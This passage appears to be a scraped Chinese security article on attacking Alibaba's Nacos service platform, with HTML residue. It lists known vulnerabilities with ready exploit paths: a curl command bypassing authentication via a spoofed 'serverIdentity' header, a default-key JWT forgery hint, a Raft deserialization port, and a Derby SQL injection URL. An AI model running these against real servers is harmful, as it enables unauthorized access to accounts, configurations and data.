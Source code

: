 <td valign="top" colspan="1" rowspan="1" data-style="outline: 0px; word-break: break-all; hyphens: auto; border-color: rgb(76, 76, 76);" class="js_darkmode__19" style="outline: 0px;word-break: break-all;hyphens: auto;border-color: rgb(76, 76, 76);visibility: visible;"><span style="letter-spacing: 0.578px;text-wrap: wrap;">综合利用工具</span></td></tr></tbody></table>  
  
  
> >> **Part 1**  
  
  
  
  
  
  
  
01  
  
何为  
n  
a  
co  
s  
  
Nacos 是阿里巴巴推出来的一个新开源项目，是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。致力于帮助发现、配置和管理微服务。Nacos 提供了一组简单易用的特性集，可以快速实现动态服务发现、服务配置、服务元数据及流量管理。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/drOLIiakV5uoB5GHgCKptkhXA6VUTtOyv7vnhLpPnykM3DiboGEWIsYdarFXLu1qODEFkTzZ4jKTaKVZNhFlr51A/640?wx_fmt=png&from=appmsg "")  
  
国内企业常用,hw中常见,且利用难度低  
  
  
> >> **Part 2**  
  
  
  
  
  
  
  
02  
  
漏洞列表和指纹表  
<table><tbody><tr><td width="141" valign="top" style="word-break: break-all;">CVE-2021-29441 Nacos权限认证绕过漏洞</td><td width="396" valign="top" style="word-break: break-all;">/nacos/v1/auth/users?pageNo=1&amp;pageSize=1</td></tr><tr><td width="288" valign="top" style="word-break: break-all;">secret.key 默认密钥 CNVD-2023674205</td><td width="396" valign="top" style="word-break: break-all;"><span style="letter-spacing: 0.578px;text-wrap: wrap;">/nacos/v1/auth/users?pageNo=1&amp;pageSize=9&amp;search=accurate返回403就可以考虑伪造jwt</span></td></tr><tr><td width="288" valign="top" style="word-break: break-all;">CVE-2021-29441 Nacos权限认证绕过漏洞</td><td width="396" valign="top" style="word-break: break-all;">curl &#34;http://ip:端口/nacos/v1/auth/users?pageNo=1&amp;pageSize=9&amp;search=blur&#34; -H &#34;serverIdentity: security&#34;<section data-mpa-preserve-tpl-color="t" data-mpa-template="t" mpa-preserve="t" mpa-from-tpl="t" style="letter-spacing: 0.578px;text-wrap: wrap;"><pre></pre></section></td></tr><tr><td width="288" valign="top" style="word-break: break-all;"><span style="text-wrap: wrap;font-size: 16px;letter-spacing: 0.034em;">Nacos 集群 Raft 反序列化漏洞 CNVD-2023-45001</span></td><td width="396" valign="top" style="word-break: break-all;"><span style="color: rgb(18, 18, 18);font-family: -apple-system, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Microsoft YaHei&#34;, &#34;Source Han Sans SC&#34;, &#34;Noto Sans CJK SC&#34;, &#34;WenQuanYi Micro Hei&#34;, sans-serif;font-size: medium;letter-spacing: normal;text-align: start;text-wrap: wrap;background-color: rgb(255, 255, 255);">开放7848端口</span><br/></td></tr><tr><td valign="top" colspan="1" rowspan="1" style="word-break: break-all;">sql注入<br/></td><td valign="top" colspan="1" rowspan="1" style="word-break: break-all;"><p><span style="font-size: 17px;letter-spacing: 0.578px;text-decoration: none;">derby数据库</span></p><p>/nacos/v1/cs/ops/derby?sql=select+*+from+sys.systables</p></td></tr></tbody></table>```
